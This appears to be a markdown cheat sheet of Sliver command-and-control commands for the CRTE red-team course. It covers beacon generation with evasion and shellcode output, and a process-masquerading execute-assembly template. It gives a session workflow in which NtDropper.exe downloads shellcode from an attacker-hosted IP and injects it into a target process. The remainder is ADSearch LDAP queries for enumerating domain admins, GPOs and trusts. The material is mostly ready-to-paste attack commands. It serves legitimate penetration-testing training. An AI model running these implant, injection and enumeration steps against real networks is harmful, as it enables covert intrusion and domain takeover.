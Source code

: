 # Sliver C2 And Tools CheatSheet CRTE
Sliver is a C2 created by BishopFox compiled in the go language.

Note: Sliver has a lot of OpSec issues

## Basic Commands



| Command | Info |
| ------ | ------ |
| ```beacons``` | lists current beacons with info
| ```background``` | backgrounds current session (much like msfconsole)
| ```sessions``` | list current sessions
| ```use -i <id>``` | use beacon/session with the given id 
| ```info``` | lists info of current session
| ```armory``` | lists avaliable extensions
| ```armory install <extension>``` | installs an extension
| ```loot``` | displays loot saved
| ```implants``` | displays implants
| ```jobs``` | lists current jobs
| ```pivots``` | lists pivots
| ```pivots tcp -l <port>``` | create tcp pivot with port <port>
| ```interactive``` | used with a beacon to start an interactive session
| ```shell``` | starts an interactive shell

*Note: using ```shell``` is less OppSec friendly and it is recommended to use ```interactive```

## Listeners
Various listeners are support by Sliver and can be automatically started using these various protocols:
```sh
dns
http
https
mtls
```

In the CRTE we use https.
## Beacons
| Options | Info |
| ------ | ------ |
| ```generate beacon <options>``` | base command to generate a beacon
| ```-b or --http http://10.0.0.23``` | use the http or https protocol
| ```-i or --tcp-pivot 10.0.0.23:<port>``` | create a pivot beacon with port ```<port>```
| ```-f or --format shellcode``` | generate the beacon in this format
| ```-N or --name Name``` | the name displayed in Sliver
| ```-e or --evasion``` | creates the beacon with some evasion
| ```-m or --mtls``` | uses mtls protocol
| ```-d or --dns``` | uses dns protocol
| ```-s or --save /path/to/save/file.format``` | displays implants

## Template

For easy copy pasta. In a session, this will execute the specified local tool on the remote machine

```sh
execute-assembly -A /RuntimeWide -d TaskSchedulerRegularMaintenanceDomain -p 'C:\Windows\System32\taskhostw.exe' -t 80 '/home/kali/Desktop/CRTE Tools/Sliver/someTool.exe'
```
## Getting a session
```
1. generate beacon (use shellcode format)
2. host shellcode
3. use NtDropper.exe on target to start your session
```
Obviously there are many ways to do this, however this is what is shown in CRTE
## Tools

##### NtDropper.exe
NtDropper is a PE Loader that we can use to perform process injection into a target a target process. It will download and invoke hosted shellcode.

```NtDropper.exe <IP> <shellcode path>```
ex:
```NtDropper.exe 10.0.0.23 Implants/shellcode.bin```
this will download shellcode directly from ```http://10.0.0.23:80/Implants/shellcode.bin```
##### Enumeration with ADSearch.exe

Helpful tool to enumerate Active Directory. In Sliver, we would execute this tool on the target system by typing:

```execute-assembly -A /RuntimeWide -d TaskSchedulerRegularMaintenanceDomain -p 'C:\Windows\System32\taskhostw.exe' -t 80 '/home/kali/Desktop/CRTE Tools/Sliver/ADSearch.exe' '<options>'```
Basic options:
| Options | Info |
| ------ | ------ |
| ```'--users'``` | Enumerate users
| ```'--computers'``` | Enumerate computers
| ```'--domain-admins'``` | Enumerate domain admins

We can also perform LDAP queries using ADSearch, which makes this a very powerful tool. To do this we would use ```'--search "<query>" --attributes <attributes>'```

If copy pasting, ensure to include the openning and closing ticks
| Search Options | Info |
| ------ | ------ |
| ```'--search "(&(objectCategory=group)(cn=enterprise admins))" --attributes cn,member --domain techcorp.local'``` | Enumerate enterprise admins
| ```'--search "(objectCategory=organizationalUnit)" --attributes name'``` | List all OU's
| ```'--search "(OU=SomeOU)" --attributes distinguishedname'``` | Enumerate DistinguishedName for SomeOU
| ```'--search "(objectCategory=groupPolicyContainer)" --attributes displayname'``` | Enumerate GPO's
| ```'--search "(OU=SomeOU)" --attributes gplink'``` | Enumerate GPOs applied to SomeOU. This is step one
| ```'--search "(&(objectCategory=groupPolicyContainer)(|(name={gplink ID})))" --attributes displayname'``` | copy paste found gpLink in name={}. This is step two
| ```'-d some.domain.local --search "(objectClass=trustedDomain)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Map trusts of some.domain.local. We can add the --json arg to give us the results in json format for readibility |
| ```'-d some.domain.local --search "(trustAttributes=4)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Map External Trusts |
| ```'-d some.trust.local --search "(objectClass=trustedDomain)" --attributes cn,flatName,trustDirection,trustPartner,name,objectClass,trustAttributes --json'``` | Enumerate trusts of a trusting forest |

